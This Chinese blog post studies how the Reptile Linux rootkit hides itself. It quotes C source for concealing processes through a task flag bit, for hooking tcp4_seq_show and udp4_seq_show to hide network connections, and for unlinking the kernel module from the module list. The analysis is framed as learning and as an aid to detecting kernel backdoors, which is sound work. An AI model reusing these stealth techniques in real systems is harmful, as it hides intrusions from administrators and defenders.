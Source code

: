 ```yaml
---
layout: post
title:  Linux Rootkit初窥(三)Rootkit隐藏
description: Linux Rootkit初窥(三)Rootkit隐藏
summary: Linux Rootkit初窥(三)Rootkit隐藏
tags: security
minute: 15
---
```


## 背景

一个良好的 Rootkit 除了有敲门，Hook以外，隐藏网络/进程/内核模块也是十分重要的，同时对于我们分析是否存在内核后门，也非常重要

以下部分代码基于 [Reptile](https://github.com/f0rb1dd3n/Reptile)

## proc 隐藏

[代码地址](https://github.com/f0rb1dd3n/Reptile/blob/master/kernel/proc.c)

### 判断可见

首先是入口地址，判断进程是否可见，再调用 `flag_tasks` 设置

```C
void hide_proc(pid_t pid)
{
	if (is_proc_invisible(pid))
		flag_tasks(pid, 0);
	else
		flag_tasks(pid, 1);
}
```

先看一下 `is_proc_invisible` 函数

```C
int is_proc_invisible(pid_t pid)
{
	struct task_struct *task;
	int ret = 0;

	if (!pid)
		return ret;

	task = find_task(pid);
	if (!task)
		return ret;

	if (is_task_invisible(task))
		ret = 1;

	put_task_struct(task);
	return ret;
}

...

#define FLAG 0x80000000

static inline int is_task_invisible(struct task_struct *task)
{
	return task->flags & FLAG;
}
```

主要判断 `task->flags` 一切围绕着这个展开，包括下面的进程隐藏。我对于 linux 内核并不熟悉，搜索学习了一下如下：

### 进程标记

`task_struct` 这个结构体，在 `linux/sched.h` 下，[elixir](https://elixir.bootlin.com/linux/latest/source/include/linux/sched.h#L728)

对应的 `flags` 标识位如下所示:

```C
/*
 * Per process flags
 */
#define PF_VCPU			0x00000001	/* I'm a virtual CPU */
#define PF_IDLE			0x00000002	/* I am an IDLE thread */
#define PF_EXITING		0x00000004	/* Getting shut down */
#define PF_POSTCOREDUMP		0x00000008	/* Coredumps should ignore this task */
#define PF_IO_WORKER		0x00000010	/* Task is an IO worker */
#define PF_WQ_WORKER		0x00000020	/* I'm a workqueue worker */
#define PF_FORKNOEXEC		0x00000040	/* Forked but didn't exec */
#define PF_MCE_PROCESS		0x00000080      /* Process policy on mce errors */
#define PF_SUPERPRIV		0x00000100	/* Used super-user privileges */
#define PF_DUMPCORE		0x00000200	/* Dumped core */
#define PF_SIGNALED		0x00000400	/* Killed by a signal */
#define PF_MEMALLOC		0x00000800	/* Allocating memory */
#define PF_NPROC_EXCEEDED	0x00001000	/* set_user() noticed that RLIMIT_NPROC was exceeded */
#define PF_USED_MATH		0x00002000	/* If unset the fpu must be initialized before use */
#define PF_NOFREEZE		0x00008000	/* This thread should not be frozen */
#define PF_FROZEN		0x00010000	/* Frozen for system suspend */
#define PF_KSWAPD		0x00020000	/* I am kswapd */
#define PF_MEMALLOC_NOFS	0x00040000	/* All allocation requests will inherit GFP_NOFS */
#define PF_MEMALLOC_NOIO	0x00080000	/* All allocation requests will inherit GFP_NOIO */
#define PF_LOCAL_THROTTLE	0x00100000	/* Throttle writes only against the bdi I write to,
						 * I am cleaning dirty pages from some other bdi. */
#define PF_KTHREAD		0x00200000	/* I am a kernel thread */
#define PF_RANDOMIZE		0x00400000	/* Randomize virtual address space */
#define PF_SWAPWRITE		0x00800000	/* Allowed to write to swap */
#define PF_NO_SETAFFINITY	0x04000000	/* Userland is not allowed to meddle with cpus_mask */
#define PF_MCE_EARLY		0x08000000      /* Early kill for mce process policy */
#define PF_MEMALLOC_PIN		0x10000000	/* Allocation context constrained to zones which allow long term pinning. */
#define PF_FREEZER_SKIP		0x40000000	/* Freezer should not count it as freezable */
#define PF_SUSPEND_TASK		0x80000000      /* This thread called freeze_processes() and should not be frozen */
```

在 `Reptile` 中，判断是否为 `PF_SUSPEND_TASK`. 在[其他项目](https://github.com/seal9055/cyber_attack_simulation/blob/7aff159017ce013fca6b59dd687e221251d57100/rootkit/rootkit.c)中，我们也能看到为 `0x10000000` 即 `PF_MEMALLOC_PIN`

## net 隐藏

[文件地址](https://github.com/f0rb1dd3n/Reptile/blob/1e17bc82ea8e4f9b4eaf15619ed6bcd283ad0e17/kernel/network.c)
[main.c](https://github.com/f0rb1dd3n/Reptile/blob/1e17bc82ea8e4f9b4eaf15619ed6bcd283ad0e17/kernel/main.c)

在 `main.c` 中代码如下：

```C
/* ------------------------ HIDE CONNECTIONS ------------------------- */

#ifdef CONFIG_HIDE_CONN

#include <net/inet_sock.h>
#include <linux/seq_file.h>
#include "network.h"

LIST_HEAD(hidden_conn_list);

KHOOK_EXT(int, tcp4_seq_show, struct seq_file *, void *);
static int khook_tcp4_seq_show(struct seq_file *seq, void *v)
{
	int ret;
	struct sock *sk = v;
	struct inet_sock *inet;
	struct hidden_conn *hc;
	unsigned int daddr;
	//unsigned short dport;

	if (v == SEQ_START_TOKEN) {
		goto origin;
	}

	inet = (struct inet_sock *)sk;

#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 33)
	daddr = inet->inet_daddr;
	//dport = inet->inet_dport;
#else
	daddr = inet->daddr;
	//dport = inet->dport;
#endif

	list_for_each_entry(hc, &hidden_conn_list, list)
	{
		if (hc->addr.sin_addr.s_addr == daddr /* && hc->addr.sin_port == dport */) {
			ret = 0;
			goto out;
		}
	}
origin:
	ret = KHOOK_ORIGIN(tcp4_seq_show, seq, v);
out:
	return ret;
}

KHOOK_EXT(int, udp4_seq_show, struct seq_file *, void *);
static int khook_udp4_seq_show(struct seq_file *seq, void *v)
{
	int ret;
	struct sock *sk = v;
	struct inet_sock *inet;
	struct hidden_conn *hc;
	unsigned int daddr;
	//unsigned short dport;

	if (v == SEQ_START_TOKEN) {
		goto origin;
	}

	inet = (struct inet_sock *)sk;

#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 33)
	daddr = inet->inet_daddr;
	//dport = inet->inet_dport;
#else
	daddr = inet->daddr;
	//dport = inet->dport;
#endif

	list_for_each_entry(hc, &hidden_conn_list, list)
	{
		if (hc->addr.sin_addr.s_addr == daddr /* && hc->addr.sin_port == dport */) {
			ret = 0;
			goto out;
		}
	}
origin:
	ret = KHOOK_ORIGIN(udp4_seq_show, seq, v);
out:
	return ret;
}

#endif
```

简单来说就是 hook 掉 `tcp4_seq_show/udp4_seq_show` 这两个展示网络接口。在函数 `khook_inet_ioctl` 分支 4 获取来判断是否隐藏

### module 隐藏

首先 module 的获取是, `/proc/modules` 以及 `lsmod` ，在 `Reptile` 中是将自身从内核模块链表中删除。代码很简单，具体原理放后面再深入

```C
void hide(void)
{
	while (!mutex_trylock(&module_mutex))
		cpu_relax();
	mod_list = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);
	kfree(THIS_MODULE->sect_attrs);
	THIS_MODULE->sect_attrs = NULL;
	mutex_unlock(&module_mutex);
	
	hide_m = 1;
}
```

### Unfishied

> 稍微流水账的记录了一下... 因为急于看 cilium 的 tetragon...

